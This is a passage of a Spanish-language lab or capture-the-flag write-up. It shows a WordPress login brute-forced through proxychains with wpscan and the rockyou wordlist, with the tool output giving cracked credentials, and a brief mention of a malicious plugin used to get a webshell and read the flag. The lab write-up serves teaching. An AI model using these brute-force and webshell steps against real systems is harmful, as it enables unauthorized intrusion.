 Así, de esta forma, lanzamos firefox a través de proxychains para investigar la página:

```
proxychains firefox http://127.0.0.1:80/wp-login.php 
```

Nos encontramos con un potal de logeo común, realizamos un logeo de prueba para comprobar la reacción de la página ante un logeo inválido:

<div style="text-align:center">
	<img src="{{ 'assets/img/pen/Pasted image 20230312145715.png' | relative_url }}" text-align="center"/>
</div>

De esta forma, inspeccionamos los parámetros de la request a través de DevTools y formamos el siguiente comando con *wpscan* a través de proxychains:

```
wpscan --update
```

<br />

```
proxychains -q wpscan --url http://127.0.0.1:80/ --usernames offsec --passwords /usr/share/wordlists/rockyou.txt

[...]

[+] Performing password attack on Wp Login against 1 user/s
[SUCCESS] - offsec / 555666                                                                                          
Trying offsec / missy1 Time: 00:01:02 <                                     > (1885 / 14346277)  0.01%  ETA: ??:??:??

[!] Valid Combinations Found:
 | Username: offsec, Password: 555666

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

[+] Finished: Sun Mar 12 11:19:46 2023
[+] Requests Done: 2057
[+] Cached Requests: 5
[+] Data Sent: 672 KB
[+] Data Received: 12.57 MB
[+] Memory used: 272.699 MB
[+] Elapsed time: 00:01:13
```

De esta forma, hemos encontrado unas credenciales válidas y procedemos a logearnos y nos encontramos con un sitio web de Wordpress. Seguimos las indicaciones para crear un plugin malicioso con el que obtener una webshell y leer la flag.

```
proxychains firefox --new-window http://127.0.0.1:80/wp-login.php
```

